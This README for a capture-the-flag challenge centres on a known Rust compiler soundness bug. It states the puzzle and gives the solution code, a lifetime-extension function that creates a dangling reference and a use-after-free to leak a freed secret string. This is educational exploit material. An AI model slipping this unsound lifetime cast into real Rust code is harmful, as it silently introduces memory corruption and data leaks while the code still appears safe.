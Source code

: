 # a_happy_life

Demo for a CTF challenge based on [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860).

## Idea

This challenge exploits a unsoundness hole discovered in Rust lifetime deduction system. When a type like `&'a &'b ()` is encountered, the compiler implicitly relies upon `'b: 'a`, which could be broken by contravariance.

See [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860) for the original issue. A more theoretical yet neater explanation can be found on https://counterexamples.org/nearly-universal.html.

## Build environment

* `rustc` on `PATH`. Tested with these compilers:
  * `rustc 1.76.0-nightly (d86d65bbc 2023-12-10)`
  * `rustc 1.74.0 (79e9716c9 2023-11-13) (built from a source tarball)`
* Flag in environment variable `FLAG`

Run this command to start the challenge (either Release or Debug build is okay):

```bash
cargo run -r
# or
cargo run
```

## Problem

Given the following program snippet, find appropriate code to fill in the two blanks (`[YOUR CODE PART 1]` and `[YOUR CODE PART 2]`) so as to read variable `_secret` under the conditions that:

* No `unsafe` code allowed
* No references to `_secret`
* No `std` linkage except the global allocator

```rust
// main.rs
#![no_std]
#![forbid(unsafe_code)]

extern crate my_proxy;
extern crate alloc;
use alloc::string::String;

// [YOUR CODE PART 1]

fn main() {
    let x = {
        // [YOUR CODE PART 2]
    };
    let _secret = String::from("???");
    my_proxy::print(&x);
}"
```

Crate `my_proxy` is a wrapper crate linked to `std`, but it pulls in only the global allocator and the `println!` macro.

```rust
// my_proxy.rs
pub use std::alloc::System;

#[global_allocator]
static GLOBAL: System = System;

pub fn print(s: &str) {
    println!("my_proxy::print(s: &str) says: {}", s);
}
```

## Solution

Part 1:

```rust
// Create "any-to-any" lifetime cast function.
fn aux<'a, 'b, T>(_: Option<&'a &'b ()>, v: &'b T) -> &'a T { v }

fn exp<'c, 'd, T>(x: &'c T) -> &'d T {
    let f: fn(Option<&'d &'d ()>, &'c T) -> &'d T = aux;
    f(None, x)
}
```

Part 2:

```rust
// Create a local variable whose memory location may coincide with `_secret`.
// The length of the `&'static str` literal should be the same as `_secret`.
let local = String::from("aaaabaaacaaadaaa");
// Leak it!
exp(&local)
```

### Explanation

The value `local` is dropped once it leaves its scope. But as the compiler thinks that `x`, as a reference to `local`, has a longer lifetime, it dangles after the destruction of `local`. Now, `x` could possibly (in fact, always, with `-C opt_level=0`) refer to the memory space subsequently allocated for `_secret`, creating a use-after-free scenario.
